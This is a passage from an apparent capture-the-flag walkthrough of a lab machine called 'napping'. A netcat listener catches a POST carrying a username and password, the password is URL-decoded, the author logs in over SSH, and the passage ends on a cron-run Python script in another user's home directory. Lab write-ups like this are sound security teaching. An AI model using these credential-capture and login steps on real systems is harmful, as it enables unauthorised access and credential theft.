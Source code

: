 I started a netcat listener on port 8080, after a minutes I got the credentials.

```console
root@kali:/var/www/html# nc -vlnp 8080
listening on [any] 8080 ...
connect to [172.16.178.1] from (UNKNOWN) [172.16.178.137] 51010
POST / HTTP/1.1
Host: 172.16.178.1:8080
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 45
Content-Type: application/x-www-form-urlencoded

username=daniel&password=C%40ughtm3napping123
```

The password is in URL encoded, so I decoded it.

```console
root@kali:~# hURL -u "C%40ughtm3napping123"

Original    :: C%40ughtm3napping123
URL DEcoded :: C@ughtm3napping123
```

I logged in via ssh with the credentials found.

```console
root@kali:~# ssh -l daniel 172.16.178.137
```

I found a python script that executes as a cron job in adrian’s home directory, it is locally checking the webpage.

```console
daniel@napping:/home/adrian$ cat query.py
cat query.py
from datetime import datetime
import requests

now = datetime.now()

r = requests.get('http://127.0.0.1/')
if r.status_code == 200:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Site is Up: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
else:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Check Out Site: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
```
